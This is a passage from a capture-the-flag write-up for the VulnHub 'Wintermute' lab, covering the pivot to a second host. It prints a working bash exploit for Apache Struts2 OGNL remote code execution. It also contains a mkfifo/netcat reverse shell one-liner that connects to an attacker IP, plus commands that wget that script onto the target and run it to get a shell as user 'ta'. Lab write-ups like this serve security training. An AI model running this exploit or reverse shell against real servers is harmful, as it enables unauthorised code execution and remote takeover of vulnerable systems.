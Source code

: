 ```
#!/bin/bash

RHOST=192.168.251.7
RPORT=8080
TARGETURI=struts2_2.3.15.1-showcase/integration
URL=http://$RHOST:$RPORT/$TARGETURI/saveGangster.action
CMD="$1"
PAYLOAD=""
PAYLOAD="${PAYLOAD}%{"
PAYLOAD="${PAYLOAD}(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
PAYLOAD="${PAYLOAD}(#_memberAccess?(#_memberAccess=#dm):"
PAYLOAD="${PAYLOAD}((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
PAYLOAD="${PAYLOAD}(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedPackageNames().clear())."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedClasses().clear())."
PAYLOAD="${PAYLOAD}(#context.setMemberAccess(#dm))))."
PAYLOAD="${PAYLOAD}(@java.lang.Runtime@getRuntime().exec('$CMD'))"
PAYLOAD="${PAYLOAD}}"

usage() {
          echo "Usage: $(basename $0) [COMMAND]" >&2
            exit 1
    }

if [ $# -ne 1 ]; then
          usage
fi

curl -s \
             -H "Referer: http://$RHOST:$RPORT/$TARGETURI/editGangster" \
                  --data-urlencode "name=$PAYLOAD" \
                       --data-urlencode "age=20" \
                            --data-urlencode "__checkbox_bustedBefore=true" \
                                 --data-urlencode "description=1" \
                                      -o /dev/null \
                                           $URL
```

As part of the port forwarding we'll be hitting the second interface of straylight:
Create a rs.sh and spin a python server.

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.219.8 4321 >/tmp/f
```
Just to explain what's gonna happen.
1. Struts is vulnerable to RCE.
2. Since its running struts hence Java, we're not able to get the payload executed directly from the vulnerability.
3. Using wget, place a reverse shell cmd in the temp directory.
4. Since there a port forward to the attacking IP. The wget request will be to same netwrk as Neuromancer(this part is a bit confusing) pay close to attention to the IPs.
```
kali@kali:~/vulnhub/wintermute/privesc$ ./exploit.sh "wget 192.168.219.8:4321/rs.sh -O /tmp/rs.sh && cd /tmp && chmod 400 rs.sh"
kali@kali:~/vulnhub/wintermute/privesc$ ./exploit.sh "cd /tmp && ./rs.sh"
```
On the attack box we've a listener as on nc -lnvp 4321. Gives us a reverse shell as user ta. This shell is a bit dodgy. We got two options:
1. Place ssh key in his home directory of ta or login via ssh
2. There's second user lady3jane and we could login as her.


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator